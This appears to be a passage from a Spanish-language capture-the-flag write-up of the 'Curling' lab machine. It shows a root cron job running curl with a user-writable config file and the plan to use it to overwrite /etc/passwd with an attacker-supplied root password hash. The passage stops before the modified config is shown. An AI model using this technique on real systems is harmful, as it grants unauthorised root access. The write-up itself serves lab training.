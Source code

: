 ```bash
2022/03/18 21:49:01 CMD: UID=0    PID=4441   | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
 
^CExiting program... (interrupt)
floris@curling:/dev/shm$ 
```

Vemos que el usuario **root** (UID=0) está ejecutando el comando `/bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report`.  Tenemos que los archivos `input` y `report` el grupo asignado es **floris** y que tenemos permisos de escritura.

```bash
floris@curling:~$ ls -l
total 12
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
floris@curling:~$ cd admin-area/
floris@curling:~/admin-area$ ls -l
total 20
-rw-rw---- 1 root floris    25 Mar 18 22:00 input
-rw-rw---- 1 root floris 14236 Mar 18 22:00 report
floris@curling:~/admin-area$
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
floris@curling:~/admin-area$
```

Si leemos el manual de `curl` y buscamos por el parámetro `-K`, tenemos lo siguiente:

```bash
# --- Example file ---
# this is a comment
url = "example.com"
output = "curlhere.html"
user-agent = "superagent/1.0"
```

Nos indica que podemos definiar una ruta donde se guarda la consulta realizada con `output` y pensando que se da prioridad a este parámetro en lugar de `-o`; podriamos tratar de coger el `/etc/passwd`, guardarlo en nuestra máquina y cambiar la contraseña de **root** para que posteriormente modificar el archivo `input` por nuestra dirección IP e indicarle que el resultado lo guarde en `/etc/passwd`.

Primero generamos una cadena de texto con `openssl` (para este caso la contraseña es *hola*):

```bash
❯ openssl passwd
Password: 
Verifying - Password: 
IB.plMO8N/x/E
```

Despúes nos copiamos el `/etc/passwd` de la máquina víctima y cambiamos el valor de **x** de **root** con nuestra cadena:
